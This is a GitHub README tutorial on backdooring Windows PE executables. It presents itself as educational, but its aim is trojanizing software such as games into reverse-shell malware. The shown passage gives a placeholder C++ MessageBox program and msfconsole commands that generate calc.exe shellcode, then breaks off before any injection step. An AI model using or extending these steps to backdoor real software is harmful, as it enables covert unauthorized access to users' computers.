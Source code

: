 


# 🔷 PE-Backdooring

 - This Repository Will Teach You How You Can Backdoor Any PE File 
 - How You Can Convert Simple PE into a reverse shell
 -  How You Can Craft Trojans With Shellcode
---

## 🔷 My Introduction
Hi my name is Aryan, im a cyber security student, just a 17 year old kid who loves Hacking and Programming, i love RE | Malware Dev and Analysis | Game Hacking etc. 


## 🧪 Introduction to PE-Backdooring 

**What is PE** - *PE is (Portable Executable) an executable file format which you typically see in windows .exe .dll .scr*
**What is Backdoor** - *Backdoor or backdooring is a method used for getting unauthorized access to any computer. Basically You can control someones computer from your computer without them knowing about it.*

So Basic idea of this repo is to make you understand how any hacker can plant a backdoor in your daily use softwares, So if for example you play **Call Of Duty Warzone** every day or any other game like **Battlefield 6** 
hacker can convert your game's exe to a malware can hack you.
And also this is **how people get hacked when they download crack software or games**.

---

## ▶️ Video Explanation ( if you want)
I have explained everything on my **Youtube Channel**  [Watch Video!](https://youtu.be/SH95uXG-RXY?si=vdffzp9UJllloRAZ)

---

## 🔰 Generating a PE for Testing
Ok Now First we need a PE file to experiment on right? 

i made a simple messagebox program in C++ which we will backdoor
think of it like its a **Photoshop 2025 software**

---
⚙️ CODE:

    #include<Windows.h>
    
    int main(){
	    MessageBoxW(NULL,L"Photoshop.exe",L"Photoshop is now running",MB_OK);
	    return 0;
	   }

---
**⚙️ Output of this program**:


<img width="240" height="170" alt="Screenshot 2025-08-20 205019" src="https://github.com/user-attachments/assets/52b5c10a-b347-4d46-95b8-f58680b8bdb9" />

## ☠️ Generating A Shellcode(Malware)

Now we will make our payload basiclly with will give us the shell
but right now for testing we will make a shellcode to open calculator in windows


### Step 1: Open msfconsole in kali linux or any other distro

### Step 2: 
---
COMMAND:

 	//Opens msfconsole
	msfconsole

  	//Mention payload as Shellcode
  	use payload/windows/exec

 	//Set command with will execute
   	set CMD calc.exe

	//generate shellcode
 	generate -f raw -o shellocde.bin

---

### Step 3: Download this bin file to your windows machine



